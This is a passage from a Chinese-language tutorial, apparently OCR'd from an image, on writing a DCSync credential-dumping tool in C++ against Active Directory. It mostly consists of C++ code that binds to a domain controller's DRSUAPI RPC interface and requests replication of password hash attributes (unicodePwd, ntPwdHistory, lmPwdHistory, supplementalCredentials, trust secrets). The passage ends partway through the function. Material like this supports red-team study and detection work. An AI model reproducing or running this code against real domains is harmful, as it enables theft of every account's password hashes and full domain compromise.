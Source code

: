 至此，主函数通过 CreateRpcBinding 获取了到域控 LDAP 服务的 RCP 绑定句柄，并将其赋给了 hBinding。该句柄将被传入 Dcsync 函数，用于创建调用 Drsuapi RPC 接口所需的上下文句柄。

## 编写 Dcsync 功能函数

```c++
BOOL Dcsync(RPC_BINDING_HANDLE hBinding, LPCWSTR DomainName, LPCWSTR DomainController, LPCWSTR UserName)
{
    BOOL status = FALSE;
    DRS_HANDLE hDrs;
    DRS_EXTENSIONS_INT extClientInt;
    GUID DomainControllerGuid;
    
    PSID pSid;
    LPWSTR StringSid;
    LPWSTR sTempDomain;
    GUID UserGuid;

    ULONG drsStatus;
    DSNAME dsName = { 0 };
    DRS_MSG_GETCHGREQ getChgReq = { 0 };
    DWORD dwOutVersion = 0;
    DRS_MSG_GETCHGREPLY getChgReply;
    
    LPCSTR DCSYNC_OIDS_EXPORT[] = {
        szOID_ANSI_name,
        szOID_ANSI_sAMAccountName, szOID_ANSI_userPrincipalName, szOID_ANSI_sAMAccountType,
        szOID_ANSI_userAccountControl, szOID_ANSI_accountExpires, szOID_ANSI_pwdLastSet,
        szOID_ANSI_objectSid, szOID_ANSI_sIDHistory,
        szOID_ANSI_unicodePwd, szOID_ANSI_ntPwdHistory, szOID_ANSI_dBCSPwd, szOID_ANSI_lmPwdHistory,
        szOID_ANSI_supplementalCredentials, szOID_ANSI_trustPartner, szOID_ANSI_trustAuthIncoming,
        szOID_ANSI_trustAuthOutgoing, szOID_ANSI_currentValue, szOID_isDeleted,
    };

    if (Get_IDL_DRSBind(hBinding, &extClientInt, &hDrs))
    {
        if (Get_IDL_DRSDomainControllerInfo(hDrs, DomainController, DomainName, &DomainControllerGuid))
        {
            wprintf(L"[+] Got domain controller guid ok.\n");
        }

        if (UserName)
        {
            if (Get_IDL_DRSCrackNames(hDrs, UserName, &UserGuid))
            {
                wprintf(L"[+] Got doamin guid ok.\n");
            }
        }
        else
        {
            if (GetSidDomainFromName(DomainName, &pSid, &sTempDomain, NULL, DomainController))
            {
                if (ConvertSidToStringSidW(pSid, &StringSid))
                {
                    if (Get_IDL_DRSCrackNames(hDrs, (LPCWSTR)StringSid, &UserGuid))
                    {
                        wprintf(L"[+] Got user guid ok.\n");
                    }
                }
            }
        }
```
